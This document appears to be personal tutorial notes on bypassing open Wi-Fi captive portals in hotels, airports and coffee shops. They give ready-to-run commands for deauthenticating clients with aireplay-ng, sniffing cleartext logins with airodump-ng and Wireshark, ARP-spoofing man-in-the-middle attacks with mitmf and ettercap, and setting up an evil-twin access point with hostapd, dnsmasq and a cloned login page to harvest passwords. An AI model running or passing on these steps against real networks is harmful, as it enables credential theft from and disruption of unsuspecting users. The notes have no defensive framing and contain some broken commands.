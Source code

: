 - Widely used in hotels, airports, coffee shops
- Allows users to access internet after logging in
- Users log in using a web interface


# How to bypass open captive portals
- Change MAC address to one of the connected devices
- Sniff logins in monitor mode
	- run airodump-ng wlan0 to get the MAC address and channel
	- run airodump-ng --bssid  00:25:F0:77:0D:FC --channel 11 --write test wlan0 
	- deauthenticate a client by running aireplay-ng -0 1 -a 00:25:F0:77:0D:FC -c 11:11:11:11:11:11 wlan0 
	- run wireshark
		- File > Open > test-01.cap
		- filter by “http”
		- Look for a POST request under the “info” column
			- Expand “HTML Form Url Encoded: ...”
			- keep expanding until you fins the user/pass in clear text
- Connect and sniff logins after running an arp spoofing attack
	- Data sent to/fm router including passwords will be directed to us
	- This is a MITM attack
	- We don't need to deauth them since the targets will go through us and since we do not have internet access they will be disconnected
	- mitmf --arp --spoof -i wlan0 --gateway 192.168.2.1 
		- you can get the gateway using “route -n”
		- This will make you the man in the middle
	- ettercap -Tq -M arp:remote -i wlan0 ///
		- another tool to do MITM
		- Tq means run in Text mode quiet
		- /// means we want to target all connected users
	- Both of the tools above will capture the credentials for you and print them to the terminal
- Create a fake AP and ask users to log on
	- Clone the captive portal page
		- Make sure the form is basic html
	- Create fake AP with the same name or similar name 
	- Deauth users from real network so they log into our evil twin
 
# Main components of wifi networks:
- A router broadcasting a signal > use wifi card with hostapd
- A DHCP server to give IPs to clients > use dnsmasq
- A DNS server to handle dns requests > use dnsmasq

# Install dnsmasq and hostapd
- apt-get install dnsmasq
- apt-get install hostapd
# setup:
- Make sure you Alfa card is plusgged in
- systemctl stop NetworkManager.service
- systemctl stop wpa_supplicant.service 
- run the commands below (bash ./flushiptables.sh)
``` sh
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```

## To run dnsmasq and hostapd:
- dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
- hostapd /root/Downloads/fake-ap/hostapd.conf -B
	- -B is so that it executes in the background

## We need to make 10.0.0.1 our default gateway
- route add default gw 10.0.0.1
	- check by running route -n (delete any others on wlan0)

## Now we need to set up ip number on wireless adapter
- ifconfig wlan0 10.0.0.1 netmask 255.255.255.0

## Start your captive portal server
- python app.py

## Try to make you captive portal use https:
- generate an https certificate
	- openssl req -new -x509 - days 365 /root/downloads/cert.pem -keyout /root/downloads/cert.key

## Ways to sniff the user/pass
- tshark -i wlan0 -w test.cap
   - open wireshark, open the test.cap file, look for http/post packets 

## Reset ip tables after you are all done
- iptables -t nat --flush

## if you need to stop dnsmaq
- ss -lp "sport = :domain"
- kill -9 #####

## to stop everything:
``` sh
service hostapd stop
service dnsmasq stop
service apache2 stop
service rpcbind stop
killall dnsmasq
killall hostapd
systemctl start NetworkManager.service
systemctl start wpa_supplicant.service
```

## follow this guys steps
- https://www.youtube.com/watch?v=1LWuZy_ept8

